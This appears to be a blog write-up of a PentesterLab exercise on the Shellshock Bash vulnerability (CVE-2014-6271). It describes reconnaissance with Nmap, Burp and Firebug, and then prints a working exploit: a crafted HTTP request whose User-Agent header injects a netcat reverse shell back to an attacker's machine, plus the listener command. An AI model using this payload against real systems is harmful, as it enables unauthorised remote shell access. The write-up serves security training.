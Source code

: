 ```yaml
---
layout: post
title: "Pentesterlab--CVE-2014-6271/Shellshock"
date: 2016-03-25 15:40:03 -0400
comments: true
categories: [pentesterlab, cve-2014-6271, Shellshock]
---
```

*So it is said that if you know your enemies and know yourself, you will not be put at risk even if you have a hundred battles.* ----- The Art of War

This vulnerability impacts the Bourne Again Shell "Bash". Bash is not usually available through a web application but can be indirectly exposed through a Common Gateway Interface "CGI". 

Difficluty: 1/5
<!--more-->

###Forces:

* Nmap 
* Burp 
* Firebug 
* NC 


###Detail Assessment and Planning

* Port scan to identify opened ports, running services and services version. ----Nmap
* Identify vulnerability and path `/cgi-bin/status`. ----Burp, Firebug
* Exploit shellshock vuln get the reverse shell ---- NC

###Waging War

####Weaknesses and Strengths

Used Nmap to idenfity opened ports. TCP port 80 is opened and Apache service is running on it.

{% img  /images/blog/pentesterlab/shellshock/shellshock1.png  [title manually exploit [alt text]] %}

By visiting the application with Burp, I can detect that multiple URL are accessed when the page is loaded:

{% img  /images/blog/pentesterlab/shellshock/shellshock2.png  [title manually exploit [alt text]] %}

Also by using Firebug, I can identify that CGI page which call system command `/cgi-bin/status`

{% img  /images/blog/pentesterlab/shellshock/shellshock3.png  [title manually exploit [alt text]] %}


####Attack

#####listen port 443
`# nc -l -p 443`


#####exploit
```
echo -e "HEAD /cgi-bin/status HTTP/1.1\r\nUser-Agent: () { :;}; /usr/bin/nc 192.168.79.156 443 -e /bin/sh\r\nHost: 192.168.79.164\r\nConnection: close\r\n\r\n" | nc 192.168.79.164 80
```

{% img  /images/blog/pentesterlab/shellshock/shellshock5.png  [title manually exploit [alt text]] %}

192.168.79.156 is the attacker's machine and 192.168.79.164 is victim machine.








{% img  /images/blog/pentesterlab/shellshock/shellshock6.png  [title manually exploit [alt text]] %}


{% img  /images/blog/pentesterlab/shellshock/game_over.jpg [title manually exploit [alt text]] %}






